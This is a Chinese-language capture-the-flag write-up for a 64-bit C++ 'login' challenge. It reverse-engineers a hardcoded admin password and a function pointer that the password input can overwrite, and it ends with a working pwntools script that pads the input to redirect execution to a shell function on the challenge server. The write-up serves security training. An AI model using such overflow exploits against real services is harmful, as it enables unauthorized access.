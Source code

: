 开启了不少保护机制的64位程序



![image-20201216185352364](https://static.hack1s.fun/images/2021/02/06/image-20201216185352364.png)

运行时要输入一个用户名和密码

![image-20201216185409505](https://static.hack1s.fun/images/2021/02/06/image-20201216185409505.png)

IDA64看一下

![image-20201216185535560](https://static.hack1s.fun/images/2021/02/06/image-20201216185535560.png)

应该是C++写的代码，很多都是这样类的方法

这里头写了admin这个账户名，并且看一下这个类初始化时可以发现密码设置成了v10那个字符串

输入这个用户名密码之后得到了一个segment fault

![image-20201216195547873](https://static.hack1s.fun/images/2021/02/06/image-20201216195547873.png)

段错误发生的位置应该是在这个password_checker

![image-20201216201849372](https://static.hack1s.fun/images/2021/02/06/image-20201216201849372.png)

这里看到直接把a1当函数进行调用了，参数s

看汇编代码

![image-20201217170835156](https://static.hack1s.fun/images/2021/02/06/image-20201217170835156.png)

这里实际上是call rax，这里实际上是`rbp+var_68`这个位置

a1是我们调用这个password_checker函数时的第一个参数

因此在调用之前是在rdi中

往前推发现这个位置

![image-20201218144259104](https://static.hack1s.fun/images/2021/02/06/image-20201218144259104.png)

动态调试发现这里有将`rbp+0x130`的值放在rax中，`rax`又放在`rdi`

继续往上可以看到`[rbp+var_130]`这里又是执行完password_checker后rax的值

![image-20201218144542567](https://static.hack1s.fun/images/2021/02/06/image-20201218144542567.png)

在这个函数内部发现rax的值是`[rbp+var_18]`这里控制的

![image-20201218144732229](https://static.hack1s.fun/images/2021/02/06/image-20201218144732229.png)

所以可以尝试将这个地方覆盖成`Admin::shell`的地址

在输入的地方，我们输入到的内容是s

![image-20201218145113099](https://static.hack1s.fun/images/2021/02/06/image-20201218145113099.png)

位置是`rbp-60h`

要覆盖的地方`rbp-18h`

计算一下偏移，再去掉原本密码的长度就可以了

```python
from pwn import *

io = remote('node3.buuoj.cn',25322)
#io = process('./login')
elf = ELF('./login')

admin_shell = 0x400e88

io.recvuntil('username:')
io.sendline('admin')

io.recvuntil('password:')

payload = '2jctf_pa5sw0rd'
payload += (0x60-0x18-len(payload))*'\x00'

payload = bytes(payload,'ascii')  + p64(admin_shell)

io.sendline(payload)
io.interactive()
```

